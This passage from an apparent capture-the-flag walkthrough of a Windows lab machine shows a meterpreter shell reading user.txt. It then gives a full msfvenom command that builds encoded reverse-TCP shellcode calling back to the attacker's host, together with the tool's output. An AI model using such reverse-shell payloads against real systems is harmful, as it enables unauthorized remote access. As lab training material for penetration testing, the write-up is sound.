 ```

```

##### user.txt

From there, we can grab `user.txt`:

```

meterpreter > shell
Process 2244 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Alfred\Music>cd ..\Desktop

c:\Users\Alfred\Desktop>dir

 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Alfred\Desktop

12/10/2017  06:50 PM    <DIR>          .
12/10/2017  06:50 PM    <DIR>          ..
12/10/2017  06:50 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,159,497,216 bytes free

c:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246...

```

#### alternative method: script + windows shell

To generate shellcode, I’ll use `msfvenon`, editing the example from the comment in the POC. I decided to start with a Windows CMD shell:

```

root@kali# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.218 LPORT=8081 -e x86/unicode_m
ixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\
xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd
1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\
xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
Found 1 compatible encodersi
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 808 (iteration=0)
x86/unicode_mixed chosen with final size 808
Payload size: 808 bytes
Final size of python file: 3872 bytes

```

